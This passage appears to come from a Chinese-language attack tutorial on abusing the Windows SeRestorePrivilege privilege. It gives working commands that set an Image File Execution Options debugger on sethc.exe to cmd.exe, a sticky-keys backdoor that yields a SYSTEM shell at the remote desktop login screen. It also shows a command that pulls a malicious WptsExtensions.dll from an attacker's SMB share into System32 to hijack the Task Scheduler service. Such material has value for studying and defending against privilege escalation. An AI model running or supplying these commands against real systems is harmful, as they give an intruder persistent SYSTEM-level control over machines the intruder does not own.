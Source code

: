 将编译并生成好的 SeRestorePrivilege.exe 上传到目标主机，执行以下命令，在 `Image File Execution Options` 注册表下创建一个子项 sethc.exe，并将 Debugger 键值设为 C:\\Windows\\System32\\cmd.exe，如下图所示。

```cmd
SeRestorePrivilege.exe -e Dubugger -p sethc.exe -c C:\Windows\System32\cmd.exe
```

![image-20230209113121331](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-dc655d7ea3beae87c68d8a4dfdce58393bcfc469.png)

然后，在目标主机的远程桌面登录屏幕中连按 5 次 Shift 键即可获取一个命令行窗口，并且为 NT AUTHORITY\\SYSTEM 权限，如下图所示。

![image-20230209111912926](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-0953647fcaa3589e08e88efb2cbc5067cdf9097f.png)

当然，我们可以直接通过 `reg` 命令设置映像劫持，如下图所示。这是因为在 `reg` 命令内部会自动调用 `AdjustTokenPrivileges()` 函数为当前进程开启 SeRestorePrivilege 特权。

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

此外，如果我们指定 `-e` 为 ”File“，则可以写入任意文件，这里我们在系统目录中写入恶意 DLL 来劫持系统服务。这里劫持的是 Task Scheduler 服务。Task Scheduler 服务使用户可以在此计算机上配置和计划自动任务，并托管多个 Windows 系统关键任务。该服务启动后，将尝试在 C:\\Windows\\System32 目录中加载 WptsExtensions.dll，但是该链接库文件不存在。我们可以制作一个同名的恶意 DLL 并放入远程共享文件夹中，然后通过 SeRestorePrivilege.exe 将恶意 DLL 写入到 C:\\Windows\\System32 目录中，如下图所示。

```cmd
SeRestorePrivilege.exe -e File -s \\172.26.10.128\evilsmb\WptsExtensions.dll -d C:\Windows\System32\WptsExtensions.dll
```

![image-20230209115832079](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e6b79609f56d5431c1e4d227a6cc8718749cd5c6.png)

当系统或服务重启时，目标系统上线，并且为 NT AUTHORITY\\SYSTEM 权限，如下图所示。

![image-20230209120050530](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-0eef89e527e8d2ae3032dd6ffe399af306baf41c.png)